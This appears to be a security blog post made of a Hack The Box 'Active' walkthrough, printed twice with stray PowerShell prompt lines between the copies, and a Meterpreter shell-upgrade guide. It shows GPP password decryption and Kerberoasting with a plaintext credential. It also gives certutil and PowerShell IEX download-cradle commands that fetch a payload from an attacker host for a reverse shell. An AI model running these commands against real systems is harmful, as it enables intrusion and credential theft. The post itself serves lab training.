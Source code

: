 ```yaml
---
title: "Upgrading Shells"
date: 2024-07-02 21:55:00 +0800
categories: [Shells-Upgrade, Meterpreter]
tags: [Upgrading-Shells, Windows-PrivEsc]
---
```


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Not so Important Intro:
Hello Folks, Today I’m going through an easy machine, Which is comprised of Active Directory Enumeration and Also compromising the domain controller. I’m gonna write a series of active directory machines from HTB. Since it is gonna help with my PNPT.
For those who have common goals like OSCP. It can be helpful follow-up. Since I’m gonna do a memory palace for every machine at the end of the write-up.
Now now, Enough Intro…
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Analyzing Nmap result:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
we have 135 open for RPC, 139 NetBIOS-SSN & 445 for SMB. Since It was running a domain server. And 464 kpasswd5,593 ncacn_http and 3268 LDAP are the common ports that can let us identify it as a Windows domain controller.
As we start with 445 SMB, You can always start with smbclient to try connecting every possible share it can connect. In this case, anonymous login was allowed. so we could list shares with the command
smbclient -L //////
You can also use smbmap to see the permissions that are kept on these shares.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Also can Enumerate the shares with “smbclient \\\\<IP>\\\share” each share at a time. Helps me try connecting the shares one by one.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
At this point, I saw there is a directory called active.htb\ Which does have recursive directories, It is gonna take time tabbing to find out all the directories that exist on this share. 
So, I tried using recurse cmd. Which can recursively parse all the directories inside it for us. For this trick to work, I need to start the command with recurse & end it with recurse to stop using this. You can see the below example to understand what I am talking about.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
With this in hand, I was able to find there is a Groups.xml that would normally consist of the information regarding the Group policy preferences. So, Using “get” cmd I got this file over to our Kali machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
While observing closely, we already got name =” active.htb\SVC_TGS” We can see there is “cpassword” is presented inside the XML file. Which seems to be encrypted. And since, it is a GPP file. We can decrypt it with a tool called “gpp-decrypt”. available on Kali Linux.
gpp-decrypt
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
So, if we are gonna double check these credentials with smbmap,
Now, we have some credentials in hand, we can just go try these details with our beloved smbclient once again,
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Tadatadattaaaaa!! We got the User Flag.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
We got some foothold on the machine. now we can access the machine remotely and have some credentials in hand.
I searched thoroughly to see any other things I could do, secretsdump, psexec, etc..; these tools can let us improvise towards token impersonation.
Nothing worked. During this phase after getting some access, people go towards lateral movement escalation.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Kerberoasting is another method that grants us tickets enabling us privilege escalation and better access. Since, normally kerb account is an admin privilege user on a domain controller.  
For some detailed notes, Feel free to read these notes here kerberoasting, or other YouTube videos for a better explanation.
sudo GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Got the ticket!!! let’s decrypt it further using hashcat. we can also see we got ticket of a administrator account.
Hashcat Cracking:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Got the password!!😁
Successfully compromised the Domain!! We got the Admin Shell.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Let’s get the root flag for the credit.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
In-Summary: Active is an easy to medium-difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.
why we are doing, what we are doing?
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
PS C:\Users\Eshwa> C:/Users/Eshwa/AppData/Local/Microsoft/WindowsApps/python3.10.exe C:\Users\Eshwa\image_replace.py

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Not so Important Intro:
Hello Folks, Today I’m going through an easy machine, Which is comprised of Active Directory Enumeration and Also compromising the domain controller. I’m gonna write a series of active directory machines from HTB. Since it is gonna help with my PNPT.
For those who have common goals like OSCP. It can be helpful follow-up. Since I’m gonna do a memory palace for every machine at the end of the write-up.
Now now, Enough Intro…
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Analyzing Nmap result:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
we have 135 open for RPC, 139 NetBIOS-SSN & 445 for SMB. Since It was running a domain server. And 464 kpasswd5,593 ncacn_http and 3268 LDAP are the common ports that can let us identify it as a Windows domain controller.
As we start with 445 SMB, You can always start with smbclient to try connecting every possible share it can connect. In this case, anonymous login was allowed. so we could list shares with the command
smbclient -L //////
You can also use smbmap to see the permissions that are kept on these shares.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Also can Enumerate the shares with “smbclient \\\\<IP>\\\share” each share at a time. Helps me try connecting the shares one by one.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
At this point, I saw there is a directory called active.htb\ Which does have recursive directories, It is gonna take time tabbing to find out all the directories that exist on this share. 
So, I tried using recurse cmd. Which can recursively parse all the directories inside it for us. For this trick to work, I need to start the command with recurse & end it with recurse to stop using this. You can see the below example to understand what I am talking about.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
With this in hand, I was able to find there is a Groups.xml that would normally consist of the information regarding the Group policy preferences. So, Using “get” cmd I got this file over to our Kali machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
While observing closely, we already got name =” active.htb\SVC_TGS” We can see there is “cpassword” is presented inside the XML file. Which seems to be encrypted. And since, it is a GPP file. We can decrypt it with a tool called “gpp-decrypt”. available on Kali Linux.
gpp-decrypt
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
So, if we are gonna double check these credentials with smbmap,
Now, we have some credentials in hand, we can just go try these details with our beloved smbclient once again,
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Tadatadattaaaaa!! We got the User Flag.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
We got some foothold on the machine. now we can access the machine remotely and have some credentials in hand.
I searched thoroughly to see any other things I could do, secretsdump, psexec, etc..; these tools can let us improvise towards token impersonation.
Nothing worked. During this phase after getting some access, people go towards lateral movement escalation.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Kerberoasting is another method that grants us tickets enabling us privilege escalation and better access. Since, normally kerb account is an admin privilege user on a domain controller.  
For some detailed notes, Feel free to read these notes here kerberoasting, or other YouTube videos for a better explanation.
sudo GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Got the ticket!!! let’s decrypt it further using hashcat. we can also see we got ticket of a administrator account.
Hashcat Cracking:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Got the password!!😁
Successfully compromised the Domain!! We got the Admin Shell.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Let’s get the root flag for the credit.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
In-Summary: Active is an easy to medium-difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.
why we are doing, what we are doing?
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)

PS C:\Users\Eshwa> ^C
PS C:\Users\Eshwa> C:/Users/Eshwa/AppData/Local/Microsoft/WindowsApps/python3.10.exe C:\Users\Eshwa\scrape-medium.py
Tired of netcat shell,
why Meterpreter again?: you cannot use a few system commands and run Meterpreter exploits, You cannot run any of the staged payloads which normally take fewer bytes (gonna be useful in situations, Where you would require less than 512 bytes as a payload For Example).
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Hello guys!! I am gonna write a dynamic walkthrough for this blog post. I will keep updating this, as soon as I get to know new tricks. Please check back for updates.
Architecture:
First of all, knowing the architecture of the machine we are attacking is the most important step in building our payload for a Meterpreter shell.
Use the following cmds to find Architecture,
or sysinfo would be in handy…
still unclear. For example, Instead of using windows/x64/meterpreter/reverse_tcp
choose the windows/meterpreter/reverse_tcp as a default for x86 and x64. But that would limit the number of payloads we can use. You can simply find it by tabbing it.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Either way. it is gonna work both ways, with no problem.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Now, As we have some payload in our hands let’s upload it to the machine’s reach enabling us to execute it for the shell.
File Transfers:
if you’re on an SMB or an Evil-Winrm shell you can simply do put command or download.
For File transferring between the victim Windows machine to our Kali. First of all, we need to host our files on an HTTP or FTP server in the network. So, that the victim’s machine can access our payload.
Most common way to start a HTTP server is using python2 or python3.
python -m SimpleHttpServer 80 or python3 -m http.server 80
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And running certutil -urlcache -f http://10.10.14.17/shell.exe shell.exe
would download the file from our Kali machine to this victim machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
If PowerShell commands were permitted then,
Use IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.17/shell.exe')
With that, the payload delivery should be done. Let’s move on to the next step.
Listening for a Meterpreter Shell:
Another common way of doing this is gonna be use the msfconsole exploit/multi/handler would be the best listener for this job.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
By default, it is configured with some BS payload. Configure the same payload you have created and uploaded to the victim machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
set LHOST & LPORT with your own as similar to the payload you have uploaded!! and run it!!
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
All we are waiting for right now is to execution of the payload from client side.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
or in some cases, if the file is accessible through the web, You can simply browse the file for execution.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And TADAaa!! We’ll get the Meterpreter shell!!
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Follow me, for more Priv Escalations, Active Directory Concepts & Other Pentesting Concepts, I can update you. As I learn them!! Thank you :-)